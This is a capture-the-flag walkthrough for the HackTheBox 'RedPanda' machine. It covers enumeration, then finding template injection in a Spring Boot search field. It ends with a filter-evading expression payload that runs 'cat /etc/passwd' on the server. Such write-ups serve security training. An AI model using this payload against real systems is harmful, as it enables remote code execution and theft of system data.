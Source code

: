 # redpanda-htb-walkthrough
<h3> About the Lab:</h3>
This is a Linux machine that requires exploiting SSTI in a Java SpringFramework application via a search bar on the webpage for RCE and then initial access. For privilege escalation, we will need to emulate what group the user is in, discover a log file he/she has access to, use pspy to discover a JAR file root periodically run, study that JAR file to discover conditions required to pass, exploiting directory traversal, and generate an XXE XML file to leak root’s SSH private key. The privilege escalation for this machine is HARD and shouldn’t be an easy category machine. But let’s get started!

## User Own:
Connect VPN first: `sudo openvpn [your.ovpn file]`<br>
First thing first, run nmap scan on the RedPanda server: `nmap -sS -A -p- -T4 [machine-ip]`<br>
**From nmap Enumeration:**<br>
**port 22**: SSH service<br>
**port 8080**: Red Panda Search (powered by Spring Boot)

We run some other tools as well to gather as much information possible to find out existing vulnerability in the system:<br>
`dirb [url] [wordlist]`<br>
`curl -v [url]`

![image](https://user-images.githubusercontent.com/31168741/203845250-2f90a1ca-396f-4546-865d-623841800910.png)
![image](https://user-images.githubusercontent.com/31168741/203845289-5f991ccb-a71c-4c2f-bcca-2ee00a747d45.png)

From above, we find out it is built in Spring framework Java. We found 3 accessible directories as well. Browse the website manually and inspect each endpoint with Burp Suite. If no input is provided, the search endpoint returns:

![empty_input](https://user-images.githubusercontent.com/31168741/203846234-ac32fa99-1973-4490-bb19-b6b760866f3b.png)

The stats provides some statistics for 2 different authors:<br>
**woodenk**<br>
**damian**<br>
and an export function, which generates a report for each specific user.

![stats_author_woodenk](https://user-images.githubusercontent.com/31168741/203846805-89cb2072-f645-401e-a253-dcbcac02bbfd.png)

Other than that, we've tested for various injections (SQL Injection, XXE Injection) etc. and turns out there is an SSTI injection within the search function, but some characters are blacklisted.<br>

<h3>So what is an SSTI Injection?</h3>
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. For further information: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection<br>

A list of payloads that can be used for checking if the site is vulnerable to SSTI:

![Capture](https://user-images.githubusercontent.com/31168741/203847710-53ca4cb6-033e-440b-a85a-a952488b2f34.PNG)

4 of the payloads didn't work since some of the symbols are blacklisted by the server.

>**Error occured: banned characters**<br>

Oddly enough, the # (pound) symbol and * (star) have done the work and we can confirm the SSTI.

![ssti_confirmed](https://user-images.githubusercontent.com/31168741/203847928-026c15c3-ab62-415e-a887-7bc63588aabf.png)
![image](https://user-images.githubusercontent.com/31168741/203847951-a3bd0348-beee-42fe-98e0-7061a58dc19d.png)

Both mathematical operations 1+3+3+7 and 7+7 equals 14 we can tell that the payload got executed by the server, since we see the expected output.

<h3>SSTI into RCE:</h3>
The nmap scan reveals that the web application is powered by Spring Boot – so is it a Java application. Let's verify our payload by reading /etc/passwd. Use PayloadAllTheThings's Template Injection cheat sheet and find a suitable payload that bypasses the blacklist filter.<br>
Hint: The payload won't work, unless we change the $ (dollar sign) to an * (asterisk).<br>

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
